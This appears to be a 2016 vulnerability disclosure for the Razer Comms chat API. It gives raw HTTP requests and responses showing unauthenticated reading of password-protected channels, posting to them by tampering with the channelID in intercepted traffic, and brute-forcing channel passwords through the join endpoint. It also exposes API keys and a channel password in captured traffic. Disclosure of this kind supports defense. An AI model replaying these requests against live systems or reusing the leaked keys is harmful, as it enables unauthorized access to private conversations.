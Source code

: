 You can read the contents in any channel (passworded or not) by knowing its channelID and community ID which are public knowledge for open communities and are retrieved after joining a community.

To get all channels and their IDs in a community (test to see if you need to be banned or not)

```
GET /communities/communityID/channels?api_key=apikey
GET /communities/0e7072b3c885a0242e0f31ac702a6d57715c89de/channels?api_key=tdVKzPO8fAo8uX0Ad6OV798jFR%2F2AFyd1FKTktutQrVMzTFhNUQz36zTyPHWGe5BvFM%3D HTTP/1.1
Host: api.comms.razerzone.com
Connection: close
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://d16tq8kr674p5c.cloudfront.net
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.170 Safari/537.36
Referer: http://d16tq8kr674p5c.cloudfront.net/communities/main/?api_key=tdVKzPO8fAo8uX0Ad6OV798jFR%2f2AFyd1FKTktutQrVMzTFhNUQz36zTyPHWGe5BvFM%3d&id=0e7072b3c885a0242e0f31ac702a6d57715c89de&l=en
Accept-Encoding: gzip,deflate
Accept-Language: en-us,en;q=0.8
```


To read messages in any channel - as you can see the request is unauthenticated too.

```
GET /communities/communityID/channels/channelID/messages
GET /communities/0e7072b3c885a0242e0f31ac702a6d57715c89de/channels/99dfcac9740dc0f1b22fa5954413ad9ff6ba814d/messages HTTP/1.1
Host: api.comms.razerzone.com
Connection: close
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://d16tq8kr674p5c.cloudfront.net
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.170 Safari/537.36
Referer: http://d16tq8kr674p5c.cloudfront.net/communities/main/?api_key=tdVKzPO8fAo8uX0Ad6OV798jFR%2f2AFyd1FKTktutQrVMzTFhNUQz36zTyPHWGe5BvFM%3d&id=0e7072b3c885a0242e0f31ac702a6d57715c89de&l=en
Accept-Encoding: gzip,deflate
Accept-Language: en-us,en;q=0.8
```
-----

When channel password is changed, older passwords will not work anymore. But you can read them anyways, probably can post too but a PoC is more complex because it involves getting a token from the XMPP server.

You can post in any password protected channel, put Burp on intercept. Post in any channel, modify the channelID in outgoing websocket (to XMPP server) requests and then the PUT request and it will be posted in the password protected channel.

**So the password essentially does nothing.**

----
You can essentially bruteforce channel passwords, however users can create long passwords.

The owner of the chat channel, gets the password in response to the GET community chat channels with APIKey.

```
GET /communities/6d00466ae554d1e2c5b5d2029b184d7a7c036422/channels?api_key=kVTr28l9BsdK4FXEDhtNrx37BEtaTy8IZmTIqKRPkFqD1okoyL38YchbVs6Y%2FOpxD%2FI%3D HTTP/1.1
Host: api.comms.razerzone.com
Connection: close
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://d16tq8kr674p5c.cloudfront.net
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.170 Safari/537.36
Referer: http://d16tq8kr674p5c.cloudfront.net/communities/main/?api_key=kVTr28l9BsdK4FXEDhtNrx37BEtaTy8IZmTIqKRPkFqD1okoyL38YchbVs6Y%2fOpxD%2fI%3d&id=6d00466ae554d1e2c5b5d2029b184d7a7c036422&l=en
Accept-Encoding: gzip,deflate
Accept-Language: en-us,en;q=0.8
```

Chat channel password is in response:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Content-Type: application/json
Date: Sun, 01 May 2016 03:47:20 GMT
Server: nginx/1.4.6 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.14
Content-Length: 542
Connection: Close

{"total":2,"count":2,"data":[{"id":"da685d267d4149b04c03c4b67336b570971213f8","name":"Game lobby","active":1,"password":"","sub_channels":0,"lobby":true,"text_muted":false,"voice_muted":false,"created":"2016-04-23T07:43:38+00:00","topic":"","anti_spam":false},{"id":"73473907abacdf716514652a663414ebb8bce77c","name":"newchatchannel","active":0,"protected":true,"prompt_password":true,"password":"1234","sub_channels":0,"lobby":false,"text_muted":false,"voice_muted":false,"created":"2016-05-01T03:46:07+00:00","topic":"","anti_spam":false}]}
```

The rest need to do something like this.

``` 
POST /communities/6d00466ae554d1e2c5b5d2029b184d7a7c036422/channels/73473907abacdf716514652a663414ebb8bce77c/join HTTP/1.1
Host: api.comms.razerzone.com
Connection: close
Content-Length: 17
Accept: application/json, text/javascript, */*; q=0.01
Authorization: Basic
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://d16tq8kr674p5c.cloudfront.net
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.170 Safari/537.36
Referer: http://d16tq8kr674p5c.cloudfront.net/communities/main/?api_key=mlCBEVP4R%2bhAyQiF0G5t%2fw8Nh6QL4nrSKqLMU%2fZEHKvuFR7mXrB9dqS3ibow65Ea3Bk%3d&id=6d00466ae554d1e2c5b5d2029b184d7a7c036422&l=en
Accept-Encoding: gzip,deflate
Accept-Language: en-us,en;q=0.8

{"password":"11"}
```

If password is wrong the response is a 403 forbidden:

```
HTTP/1.1 403 Forbidden
Access-Control-Allow-Origin: *
Content-Type: application/json
Date: Sun, 01 May 2016 03:50:09 GMT
Server: nginx/1.4.6 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.14
Content-Length: 61
Connection: Close

{
  "error":{
    "message":"Invalid channel password"
  }
}
```

Response to successful login:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Content-Type: application/json
Date: Sun, 01 May 2016 04:06:27 GMT
Server: nginx/1.4.6 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.14
Content-Length: 304
Connection: Close

{"success":true,"user":{"name":"randomCommsID2","id":"...@razerzone.com","voice_enabled":false,"voice_muted":false,"text_muted":false,"role":"member","me":false,"online":false,"channel":"","comms_id":"randomCommsID2","mic_mute":false,"join_date":"2016-05-01T00:51:12+00:00"}}
```
